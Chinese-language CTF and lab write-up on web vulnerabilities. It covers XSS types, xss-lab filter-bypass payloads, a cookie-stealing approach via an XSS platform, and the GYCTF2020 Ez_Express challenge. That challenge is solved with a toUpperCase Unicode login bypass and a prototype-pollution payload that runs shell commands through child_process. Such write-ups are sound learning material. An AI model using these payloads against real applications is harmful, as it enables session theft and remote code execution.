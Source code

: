 # JavaScript

## xss

XSS分为：存储型 、反射型 、DOM型

反射型： 服务器返回脚本，客户端执行（一般出现在URL中.

存储型： 多在评论区中出现。

DOM型： DOM型XSS无需和后端交互，而是**基于JavaScript上**，JS解析URL中恶意参数导致执行JS代码。



### BUU XSS COURSE1



![IMG_20230319_164243](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\IMG_20230319_164243.jpg)

输入<img src=1 onerror=alert(1)>

![IMG_20230318_191200](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\IMG_20230318_191200.jpg)

![IMG_20230318_191418](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\IMG_20230318_191418.jpg)

发现是xss漏洞。发现该网站只有登录，没有注册。这时需要用到xss平台来进行管理。

先创建一个项目，再找一个xss代码发在吐槽中，得到纪录。

![IMG_20230318_192104](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\IMG_20230318_192104.jpg)

再利用火狐插件EditThisCookie访问/admin.php并将cookie值输入。

![IMG_20230318_192029](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\IMG_20230318_192029.jpg)

再看原始数据得到flag

![IMG_20230318_192052](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\IMG_20230318_192052.jpg)

### xss lab

第一关非常简单，就是普通的xss漏洞。

第二关发先普通的<img src=1 onerror=alert(1)>不行

![1679216132541](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\1679216132541.jpg)

观察代码发现回显处的'<'和'>'被转码掉了，则需绕过过滤函数。需要将属性的引号和标签先闭合。

"><img src=1 onerror=alert(1)> 就ok了

第三关 先尝试一下，发现源代码中有‘且将<>给过滤了，这时需要使用特殊事件来执行js代码

![1679216614634](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\1679216614634.jpg)

' onclick='alert(1) 就ok了。

第四关与第三关类似，只需将'改为"就行。

第五关发现onclick被过滤了，之前的也被过滤了，这时采用其他标签来进行替换

"><a href="javascript:alert(1)"

![1679217169537](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\1679217169537.jpg)

发现搜索框与输入框中间有一个横线，点击就过了。

## 原型链漏洞

在 Javascript，每一个实例对象都有一个prototype属性，prototype 属性可以向对象添加属性和方法。
在 Javascript，每一个实例对象都有一个__proto__属性，这个实例属性 指向对象的原型对象(即原型)

可以通过以下方式访问得到某一实例对象的原型对象：

```javascript
objectname["__proto__"]
objectname.__proto__
objectname.constructor.prototype
```





## [GYCTF2020]Ez_Express

![1679219825914](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\1679219825914.jpg)

观察源代码可以得到

www.zip,访问即可下载，解压后得到文件，在routes中得到index.js即可得到源码

![IMG_20230319_143201](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\IMG_20230319_143201.jpg)

进行代码审计来找到解决用ADMIN登录的问题。

```javascript
function safeKeyword(keyword) {

 if(keyword.match(/(admin)/is)) {

   return keyword

 }



 return undefined

}
```

```javascript
 if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
```

发现这里用了一个toUpperCase()函数，这个是大写函数，他有一个漏洞，可以用特殊字符“ı"、"ſ"代替“i”和“s”。

 所以我们用ADMıN登录就可以了。

![IMG_20230319_162939](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\IMG_20230319_162939.jpg)

找到要用原型链的代码

```javascript
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
} 
const clone = (a) => {
  return merge({}, a);
}
```

再找一下clone()在哪里被调用的，发现是在登录后的“/action”下才调用的，用上面的方法登录

```javascript
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
```

然后再找污染点

```javascript
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
```

在这两行代码中可以看到在/info下，使用将outputFunctionName渲染入index中，而outputFunctionName是未定义的，这里就可以用上了。

注册后先用burpsuite抓一下/action的包，然后将Content-Type的数据改为application/json，然后写入playload：{"lua":"123","__proto__":{"outputFunctionName":"t=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString()//"},"Submit":""}





![IMG_20230319_152028](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\IMG_20230319_152028.jpg)

最后访问/info就可以得到flag。

![IMG_20230319_152055](D:\OneDrive\文档\Tencent Files\1339071002\FileRecv\MobileFile\IMG_20230319_152055.jpg)

